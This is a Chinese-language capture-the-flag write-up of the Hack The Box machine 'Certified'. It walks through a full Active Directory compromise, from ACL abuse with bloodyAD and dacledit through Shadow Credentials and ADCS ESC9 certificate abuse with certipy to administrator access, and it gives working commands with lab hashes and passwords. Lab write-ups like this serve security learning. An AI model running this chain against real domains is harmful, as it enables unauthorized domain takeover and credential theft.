# 域渗透实战之HTB-Certified-先知社区

> **来源**: https://xz.aliyun.com/news/16250  
> **文章ID**: 16250

---

  
Machine Information

As is common in Windows pentests, you will start the Certified box with credentials for the following account: Username: judith.mader Password: judith09  
获得初始凭据judith.mader:judith09

## 信息收集

### 端口探测

```
sudo nmap -sT --min-rate 10000 -p- 10.10.11.41 -oA nmapscan/port
```

  
扫描详细端口

```
grep open nmapscan/port.nmap | awk -F'/' '{print $1}' | paste -sd ','
...............
nmap -sTVC -O -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49666,49668,49673,49674,49683,49713,49737,62702 10.10.11.41
```

  
将域名写入到/etc/hosts

```
echo "10.10.11.41  DC01.certified.htb  certified.htb" > /etc/hosts
```

### SMB服务利用

尝试匿名及初始凭据登录

```
smbclient -NL 10.10.11.41
crackmapexec smb 10.10.11.41 -u judith.mader -p 'judith09' --shares
```

  
简单看看并没有发现可利用点



#### rid-brute

```
crackmapexec smb 10.10.11.41 -u judith.mader -p 'judith09' --rid-brute  | grep 'SidTypeUser'
```

指定--rid-brute参数爆破一下用户名

  
获得一组用户名

```
Administrator
Guest
krbtgt
DC01$
judith.mader
management_svc
ca_operator
alexander.huges
harry.wilson
gregory.cameron
```

### AS-REPRoasting

```
impacket-GetNPUsers -dc-ip 10.10.11.41 -no-pass -request -usersfile user_list certified.htb/
```



## BloodHound利用

收集域内信息

```
bloodhound-python -c All -u judith.mader -p judith09 -ns 10.10.11.41 -d certified.htb -dc dc01.certified.htb --zip
```

### 域内信息分析



这里实际上judith.mader对management这个组只有WriteOwner权限，另外两个是后期添加的



management组对management\_svc具有GenericWrite权限



management\_svc用户对ca\_operator用户具有GenericAll权限  
ca\_operator并没有First Degree Object Control，这个等后面再说

## 建立立足点

我们知道judith.mader对management这个组只有WriteOwner权限  
参考：<https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adds-acl-ace/#writeowner>



将该组的所有者，更改为judith.mader用户

```
bloodyAD --host dc01.certified.htb -d certified.htb -u judith.mader -p 'judith09' set owner management judith.mader
```

  
接下来，把judith.mader加入到management组，在此之前要给予WriteMembers权限  
参考：<https://exploit-notes.hdks.org/exploit/windows/active-directory/dacl-attack/#2.-read-dacl>

  
看一下帮助



```
impacket-dacledit -action read -rights WriteMembers -principal 'judith.mader' -dc-ip 10.10.11.41 "certified.htb/judith.mader:judith09"

```

  
报错说我们的principal\_security\_descriptor未配置  
使用-target-dn指定

```
impacket-dacledit -action read -rights WriteMembers -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' -dc-ip 10.10.11.41 "certified.htb/judith.mader:judith09"

```

  
接下来，添加权限

```
impacket-dacledit -action write -rights WriteMembers -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' -dc-ip 10.10.11.41 "certified.htb/judith.mader:judith09"
```

  
通过bloodyAD把judith.mader加入到management组

```
bloodyAD --host dc01.certified.htb -d certified.htb -u judith.mader -p 'judith09' add groupMember 'management' 'judith.mader'
```



#### Shadow Credentials

接下来我们将利用Shadow Credentials(影子凭证)来获取management\_svc的hash  
前提：  
目标系统版本为Windows Server 2016 以上的域控制器  
安装在域控制器上的服务器身份验证数字证书  
拥有写入目标对象 `msDS-KeyCredentialLink`属性的权限的帐户

##### 借助pywhisker实现

<https://github.com/ShutdownRepo/pywhisker>

```
python pywhisker.py -d "certified.htb" -u "judith.mader" -p judith09 --target management_svc --action add
```

  
我们在利用PKINITtools来申请TGT以及获得hash  
<https://github.com/dirkjanm/PKINITtools>  
申请TGT

```
python gettgtpkinit.py -cert-pfx t0cZeyin.pfx -pfx-pass Ryk4iT9K3g7uEgqSfFG1  certified.htb/management_svc management_svc.ccache
```

  
设置一下环境变量

```
export KRB5CCNAME=management_svc.ccache
```

利用上面的key来获得hash

```
python getnthash.py -key 3bff551f32ba6bc443866ce6a16d3d3c548785c40735c30d42a756824bb4c5ca  certified.htb/management_svc
```

  
成功获得hash

```
evil-winrm -i dc01.certified.htb -u management_svc -H 'a091c1832bcdd4677c28b5a6a1295584'
```



## 权限提升

参考：  
<https://book.hacktricks.xyz/zh/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation>

  
我们借助certipy-ad来完成接下来的操作

  
AD证书枚举

```
certipy-ad find -u judith.mader@certified.htb -p judith09 -dc-ip 10.10.11.41

```

  
看一下json文件或者txt文件，我们发现了No Security Extension

  
参考：  
<https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adcs-certificate-services/#esc9-no-security-extension>



### ESC9 - No Security Extension

修改ca\_operator的密码

```
net user ca_operator redteam /DOMAIN
```

将ca\_operator的userPrincipalName更改为Administrator

```
certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584  -user ca_operator -upn Administrator
```



  
找到ca和模板名  
从ca\_operator的帐户请求易受攻击的证书模板ESC9

```
certipy-ad req -username ca_operator@certified.htb -p redteam -ca certified-DC01-CA -template CertifiedAuthentication -debug
```



使用证书进行身份验证并接收Administrator用户的NT哈希

```
certipy-ad auth -pfx administrator.pfx -username administrator -domain certified.htb
```



### Root！

```
evil-winrm -i dc01.certified.htb -u administrator -H '0d5b49608bbce1751f708748f67e2d34'
```


